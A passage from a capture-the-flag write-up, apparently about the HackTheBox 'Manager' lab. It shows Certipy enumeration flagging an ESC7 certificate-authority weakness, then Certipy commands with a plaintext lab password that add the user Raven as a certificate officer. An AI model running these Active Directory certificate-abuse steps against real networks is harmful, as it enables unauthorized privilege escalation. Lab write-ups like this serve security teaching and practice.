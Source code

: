 ```
    DNS Name                            : dc01.manager.htb
    Certificate Subject                 : CN=manager-DC01-CA, DC=manager, DC=htb
    Certificate Serial Number           : 5150CE6EC048749448C7390A52F264BB
    Certificate Validity Start          : 2023-07-27 10:21:05+00:00
    Certificate Validity End            : 2122-07-27 10:31:04+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : MANAGER.HTB\Administrators
      Access Rights
        Enroll                          : MANAGER.HTB\Operator
                                          MANAGER.HTB\Authenticated Users
                                          MANAGER.HTB\Raven
        ManageCertificates              : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        ManageCa                        : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven
    [!] Vulnerabilities
      ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions
Certificate Templates                   : [!] Could not find any certificate templates

```

The last line is the most important! Raven has dangerous permissions, with the label ESC7.

### ESC7

#### Add Manage Certificates

ESC7 is when a user has either the “Manage CA” or “Manage Certificates” access rights on the certificate authority itself. Raven has ManageCa rights (shown in the output above).

The steps to exploit this are on the [Certipy](https://github.com/ly4k/Certipy) README.

First, I’ll need to use the Manage CA permission to give Raven the Manage Certificates permission:

```
oxdf@hacky$ certipy ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'

```

Now Raven shows up there where they didn’t before:

```
oxdf@hacky$ certipy find -dc-ip 10.10.11.236 -ns 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
...[snip]...
        ManageCertificates              : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven
...[snip]...

```
